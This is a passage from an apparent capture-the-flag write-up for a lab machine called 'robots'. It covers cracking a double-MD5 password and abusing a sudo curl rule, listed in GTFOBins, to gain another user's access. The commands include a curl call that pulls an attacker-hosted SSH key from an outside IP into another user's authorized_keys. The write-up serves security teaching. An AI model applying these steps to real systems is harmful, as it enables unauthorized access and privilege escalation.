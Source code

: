 ```
python3 reconstruct.py rgiskard dfb35334bf2a1338fa40e5fbb4ae4753

Match found:
Combined string: rgiskard2209
First MD5: b246f21ff68cae9503ed6d18edd32dae
Double MD5: dfb35334bf2a1338fa40e5fbb4ae4753
```

We got the password, let's go into ssh, we need to use the first MD5 hash:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317155933.png)

Let's check our privileges:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317160010.png)

We can use `curl` with wildcard as the user `dolivaw`, let's check GTFOBINS:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317164324.png)

Let's reproduce these steps, for example, the right path to go would be testing how this works first, let's point out at a test resource:

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ -o /tmp/test.txt
```

If we check the file now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317164513.png)

But, what we need to find is who this file belongs to, either `dolivaw` or our user:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317164614.png)

It belongs to the `dolivaw` user, we can use this to escalate our privileges by modifying the authorized keys in ssh:

```
ssh-keygen
```

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.6.34.159:8000/id_rsa.pub -o id_rsa -o /home/dolivaw/.ssh/authorized_keys -k
```

And now, we can login as `dolivaw` using this:

```
sudo ssh dolivaw@robots.thm -i id_rsa
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317165458.png)

At this point we can read `user.txt` but let's continue onto root, let's check our privileges:
